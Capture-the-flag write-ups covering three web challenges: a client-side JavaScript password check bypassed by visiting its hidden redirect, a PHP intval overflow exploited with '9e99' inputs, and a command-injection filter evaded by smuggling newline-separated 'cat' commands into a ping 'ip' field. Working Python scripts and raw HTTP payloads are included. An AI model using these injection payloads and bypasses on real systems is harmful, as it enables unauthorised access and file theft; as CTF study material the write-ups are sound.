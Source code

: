 # Global Redirect

## Overview
This writeup details the exploitation of a client-side authentication bypass in a web application. By analyzing the page source, we can directly access a hidden endpoint and retrieve the flag.

## Analysis
Upon viewing the page source, we find the following JavaScript code responsible for authentication:

```javascript
<script>
      function loginAuthenticate(){
        var password = document.getElementById("password");
        var hash = sjcl.hash.sha256.hash(password);
        var hexRepresentation = sjcl.codec.hex.fromBits(hash);
        if (hexRepresentation == "2a70282a868c0ca9e6fe5bb5cf2ac2ea6b523062102bada26fb87091d511e3f1"){
          alert("welcome Home Admin");
          window.location = "./0078f62f00305b73de6ccace8f9fc1f68a8f1dcec865d33fcacbaf255ddefaa7";
        }else{
          alert("Incorrect Password. Please Try Again");
        }
        alert(hash);
      }
</script>
```

### Exploit Strategy
- The authentication mechanism relies on JavaScript, meaning it can be bypassed.
- The password is hashed using SHA-256 and compared with a hardcoded hash.
- If the hash matches, the user is redirected to `./0078f62f00305b73de6ccace8f9fc1f68a8f1dcec865d33fcacbaf255ddefaa7`.
- Instead of brute-forcing the password, we can directly navigate to the endpoint.

## Exploit Execution
Using Python and the `requests` module, we can fetch the contents of the hidden endpoint and extract the flag:

```python
import requests
import re

url = "http://chal.bearcatctf.io:39724/0078f62f00305b73de6ccace8f9fc1f68a8f1dcec865d33fcacbaf255ddefaa7"

response = requests.get(url)

flag_match = re.search(r'BCCTF\{.*?\}', response.text)

if flag_match:
    print(flag_match.group(0))  # Prints only the flag
else:
    print("Flag not found!")
```
---

# Numberizer Exploit

## Overview
This writeup explains how we exploit a PHP-based number validation logic to obtain a flag. The vulnerability lies in how the program processes numeric inputs, allowing us to manipulate them to achieve an unintended negative sum.

## Analysis
Examining the PHP code:

```php
<?php
ini_set("error_reporting", 0);

if(isset($_GET['source'])) {
    highlight_file(__FILE__);
}

include "flag.php";

$MAX_NUMS = 5;

if(isset($_POST['numbers']) && is_array($_POST['numbers'])) {

    $numbers = array();
    $sum = 0;
    for($i = 0; $i < $MAX_NUMS; $i++) {
        if(!isset($_POST['numbers'][$i]) || strlen($_POST['numbers'][$i])>4 || !is_numeric($_POST['numbers'][$i])) {
            continue;
        }
        $the_number = intval($_POST['numbers'][$i]);
        if($the_number < 0) {
            continue;
        }
        $numbers[] = $the_number;
    }
    $sum = intval(array_sum($numbers));

    if($sum < 0) {
        echo "You win a flag: $FLAG";
    } else {
        echo "You win nothing with number $sum ! :-(";
    }
}
?>
```

### Exploit Strategy
- The program processes an array of numbers submitted via `POST`.
- It checks if values are numeric and restricts input length to 4 characters.
- It converts numbers using `intval()`, which processes certain inputs incorrectly.
- The sum must be negative to obtain the flag.

## Exploit Execution
We exploit the behavior of `intval()` with scientific notation. `intval("9e99")` evaluates to a very large positive integer, but when summed, it can cause an integer overflow, resulting in a negative sum.

```python
import requests
import re

url = "http://52.59.124.14:5004/"

data = {
    "numbers[]": ["9e99", "9e99", "9e99", "9e99", "9e99"]
}

response = requests.post(url, data=data)

flag_match = re.search(r'ENO\{.*?\}', response.text)

if flag_match:
    print(flag_match.group(0))  # Prints only the flag
else:
    print("Flag not found!")
```

---

# Unhealth 2: The Sequel Exploit

## Overview
This challenge involves bypassing a security mechanism that detects command injection attempts. By leveraging indirect file writing and retrieval, we successfully extract the flag.

## Analysis
- The `/health-check` endpoint accepts a `POST` request with an `ip` parameter.
- Sending a normal `ping` request to an IP returns output.
- Command injection attempts (e.g., `ip=127.0.0.2; cat /flag.txt`) are blocked, triggering `HACKING DETECTED`.
- However, by writing command output to `/dev/shm/` (a temporary filesystem), we can later retrieve the flag.

## Exploit Execution
### Step 1: Write file contents to `/dev/shm/`
```http
POST /health-check HTTP/1.1
Host: chal.bearcatctf.io:30812
Content-Type: application/x-www-form-urlencoded

ip=127.0.0.1%0A%20cat%20%2f*%20%3E%20%2Fdev%2Fshm%2Fcontents1.txt
```

### Step 2: Retrieve the contents
```http
POST /health-check HTTP/1.1
Host: chal.bearcatctf.io:30812
Content-Type: application/x-www-form-urlencoded

ip=127.0.0.1%0A%20cat%20%2Fdev%2Fshm%2Fcontents1.txt
```

